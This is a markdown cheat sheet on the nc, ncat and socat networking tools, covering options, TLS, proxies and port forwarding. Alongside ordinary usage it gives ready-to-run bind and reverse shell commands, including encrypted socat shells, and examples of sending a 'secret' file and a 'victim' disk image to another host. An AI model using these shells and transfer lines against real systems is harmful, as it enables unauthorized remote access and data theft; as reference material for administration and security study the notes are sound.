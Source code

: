 # Sockets and networking

| tool  | description                                               |
| ----- | --------------------------------------------------------- |
| nc    | simplest tool, super portable                             |
| ncat  | evolution of nc, user-friendly with TLS and proxy support |
| socat | most difficult and powerfull                              |

## ncat

> Ncat is a feature-packed networking utility that reads and writes
> data across networks from the command-line. 

ncat is written by nmap project

```
ncat [options...] [hostname] [port]
```

### SSL options

ncat doesn't check for revoked certificates and doesn't support client certificate
verification

```
--ssl                           enable SSL encryption
--ssl-verify                    verify server certificate (client mode only)
--ssl-cert CERT                 verify i only need .crt, not .pem with key
--ssl-key CERT                  change generation script in socat
--ssl-trustfile CERT            
```

Following options aren't ssl related, but handle access control

```
--allow HOST[,HOST,...]         only selected hosts are allowed to connect
--allowfile FILE
--deny HOST[,HOST,...]          selected hosts are denied a connection
--denyfile FILE
```

### Proxy options

ncat can connect through socks4,socks5 and http(s). ncat can also act as an http proxy server (https isn't supported).

```
--proxy HOST[:PORT]                     use only with --proxy-type
--proxy-type (http|socks4|socks5)
--proxy-auth USER[:PASS]
--proxy-dns (local|remote|both|none)
```

### Command execution

You can spawn a simple interactive shell with `-e /bin/sh`. The shell won't be as nice
as socat shell, you will need some bash-fu to elevate it to a fully interactive shell.

```
-e COMMAND      execute command (must be full pathname)
-c COMMAND      execute via sh
```
### Mics

```
--crlf          use CRLF when taking input from stdin
--recv-only
--send-only
--keep-open     allow multiple simultaneous connections (listen mode only)
--chat
--max-conns n   maximum n simultaneous connections
```

### Examples

```bash
# encrypted connection
ncat --ssl 10.0.2.15
ncat --ssl --listen 10.0.2.15

# encrypted connection with authenticated server
ncat --ssl-verify --ssl-trustfile server.crt example.com
ncat --ssl-cert server.crt --ssl-key server.key --listen example.com

# bind shell
ncat -l 8080 -e /bin/sh
ncat bob

# reverse shell
ncat -l 8080
ncat bob -e /bin/sh

# send files
ncat -l 8080 > secret
ncat eve 8080 < secret

# proxy over http with ncat as http proxy server
ncat -vvv -l --proxy-type http --keep
ncat --proxy bob example.com 80
```

## socat

> Socat is a command-line based utility that establishes
> two bidirectional byte streams and transfers data between them

```
socat [options] <address> <address>

-d                  print fatal, error and warning messages
-ly [facility]      write messages to syslong instead of stderr
-lf <file>          write messages to logfile
-T <timeout>        absolute timeout

interesting addresses:

EXEC:<command-line>
OPEN:<filename>

OPENSSL:<host>:<port>
OPENSSL-LISTEN:<port>

TCP:<host>:<port>
TCP-LISTEN:<host>:<port>

UDP:<host>:<port>
UDP-LISTEN:<port>

PROXY:<proxy>:<hostname>:<port>
SOCKS4:<socks-server>:<host>:<port>
```

You can use `-` as an address, in which case socat will read from stdin
(or write to stdout).

### Bind and reverse shells

```bash
# reverse shell
socat FILE:`tty`,raw,echo=0 TCP-LISTEN:1337,reuseaddr
socat TCP:bob:1337 EXEC:bash,pty,stderr,setsid

# bind shell
socat FILE:`tty`,raw,echo=0 TCP:bob:1337
socat TCP-LISTEN:1337,reuseaddr EXEC:bash,pty,stderr,setsid
```

### Encrypted connection

```bash
# any file created won't be readable nor writable to the outside world
umask 0077

# create private key and certificate for client and server
for name in client server; do
    openssl req -newkey rsa:2048 -nodes -keyout "$name.key" -x509 -days 365 -out "$name.crt"
    cat "$name.key" "$name.crt" > "$name.pem"
done

# reset umask to its default state
umask 0002

# encrypted connection, but not verified, vulnerable to MiTM attacks
socat FILE:`tty`,raw,echo=0 OPENSSL-LISTEN:4443,cert=c.pem,verify=0,reuseaddr
socat OPENSSL:bob:4443,verify=0 EXEC:bash,pty,stderr,setsid

# encrypted and verified bind shell
socat OPENSSL-LISTEN:4443,cert=server.pem,cafile=client.crt,reuseaddr,fork EXEC:bash,pty,stderr,setsid 
socat FILE:`tty`,raw,echo=0 OPENSSL:bob:4443,cafile=server.crt,cert=client.pem 

# encrypted and verified reverse shell
socat FILE:`tty`,raw,echo=0 OPENSSL-LISTEN:4443,cert=server.pem,cafile=client.crt,reuseaddr,fork
socat OPENSSL:bob:4443,cafile=server.crt,cert=client.pem EXEC:bash,pty,stderr,setsid
```

The `cafile` option is only needed if you generate self-signed certificates. commonName
of certificate must match hostname of the server.

### Port forwarding

Socat is useful for simple port forwarding, though it cannot do dynamic port 
forwarding.

```
# forward all connections coming to port 8080 to internal-admin-panel:80
socat TCP-LISTEN:8080:reuseaddr,fork TCP:internal-admin-panel.com:80

# forward traffic coming to port 1234 through http proxy server to private-server
socat TCP-LISTEN:1234,reuseaddr,fork \
PROXY:my-http-proxy-server.com:private-server.com:80,proxyport=8081,proxy-authorization-file=creds.txt

# forward traffic through socks proxy server
socat TCP-LISTEN:3389,fork SOCKS4A:my-socks-server:target.com:80
```

### File transfer

Simple example of transferring files, unencrypted for simplicity.

```bash
socat TCP4-LISTEN:443,fork file:sda.img
socat TCP4:eve:443 file:victim-sda.img,create
```

### Other options

Useful options of socket and range options groups:

```
bind=[ hostname | hostaddress ][ :( service | port ) ] 
bind=127.0.0.1
bind=example.com:http
bind=10.0.0.1:443

range=<address-range>       accept connection only from hosts from address-range
range=10.0.0.0/8
range=[fe80]::/10

keepalive   allow sending keepalive on the socket
tcpwrap     use /etc/hosts.allow and /etc/hosts.deny to accept/deny connection
fork        allow multiple connections to be made
```
